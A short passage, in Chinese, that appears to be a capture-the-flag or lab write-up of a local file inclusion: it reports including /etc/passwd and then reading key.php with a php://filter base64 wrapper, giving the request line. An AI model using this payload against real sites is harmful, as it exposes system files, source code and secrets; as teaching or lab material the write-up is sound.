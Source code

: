 测试包含/etc/passwd，成功
![upload successful](/images/pasted-819.png)

直接包含key.php发现无法显示完全
![upload successful](/images/pasted-820.png)

用php伪协议尝试，成功读取key
```
fu1.php?file=php://filter/convert.base64-encode/resource=../key.php
```
